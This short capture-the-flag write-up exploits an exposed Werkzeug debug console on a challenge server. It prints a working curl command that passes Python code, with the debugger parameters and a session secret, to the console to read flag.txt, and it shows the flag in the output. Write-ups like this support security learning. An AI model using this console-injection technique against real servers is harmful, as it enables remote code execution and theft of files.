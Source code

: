 Werkzeug debug is open, seems to return a lot of 404s, but just keep repeating the request till it works...

```
╭─zoey@virtual-parrot ~/sec ‹master*› 
╰─$ curl -G 'http://jh2i.com:50018/console' --data-urlencode '__debugger__=yes' --data-urlencode 'cmd=print(open("flag.txt", "r").read())' --data-urlencode 'frm=0' --data-urlencode 's=2wXjuMqy4oKzUIktlY78'
>>> print(open(&quot;flag.txt&quot;, &quot;r&quot;).read())
flag{weurkzerg_the_worst_kind_of_debug}
```